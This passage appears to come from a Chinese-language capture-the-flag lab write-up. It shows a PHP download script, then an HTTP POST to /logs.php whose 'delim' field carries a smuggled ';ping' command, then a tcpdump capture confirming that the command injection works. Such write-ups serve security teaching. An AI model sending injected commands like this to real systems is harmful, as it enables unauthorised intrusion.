 ```
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>

```

```delim```这个参数貌似被当成了一个系统命令执行了，假如我们可以劫持这个命令，就可以拿到一个foodhold

我们修改delim参数，ping我们的攻击机看是否能接收到icmp包

```
POST /logs.php HTTP/1.1

Host: 10.10.11.104

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 52

Origin: http://10.10.11.104

Connection: close

Referer: http://10.10.11.104/file_logs.php

Cookie: PHPSESSID=gh706jir5vam1308g1ds54rsi7

Upgrade-Insecure-Requests: 1



delim=comma;ping 10.10.16.3
```

收到了icmp包，证明可以劫持命令
```
┌──(root💀kali)-[~]
└─# tcpdump -i tun0                                                                                 1 ⨯
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
04:01:18.750750 IP 10.10.16.3.58226 > 10.10.11.104.http: Flags [S], seq 1822473997, win 64240, options [mss 1460,sackOK,TS val 1564233421 ecr 0,nop,wscale 7], length 0
04:01:19.009962 IP 10.10.11.104.http > 10.10.16.3.58226: Flags [S.], seq 4230985501, ack 1822473998, win 65160, options [mss 1355,sackOK,TS val 2920975681 ecr 1564233421,nop,wscale 7], length 0
04:01:19.010035 IP 10.10.16.3.58226 > 10.10.11.104.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 1564233680 ecr 2920975681], length 0
04:01:19.010276 IP 10.10.16.3.58226 > 10.10.11.104.http: Flags [P.], seq 1:544, ack 1, win 502, options [nop,nop,TS val 1564233680 ecr 2920975681], length 543: HTTP: POST /logs.php HTTP/1.1
04:01:19.566526 IP 10.10.11.104.http > 10.10.16.3.58226: Flags [.], ack 544, win 505, options [nop,nop,TS val 2920976244 ecr 1564233680], length 0
04:01:20.102479 IP 10.10.11.104 > 10.10.16.3: ICMP echo request, id 21779, seq 1, length 64
04:01:20.102498 IP 10.10.16.3 > 10.10.11.104: ICMP echo reply, id 21779, seq 1, length 64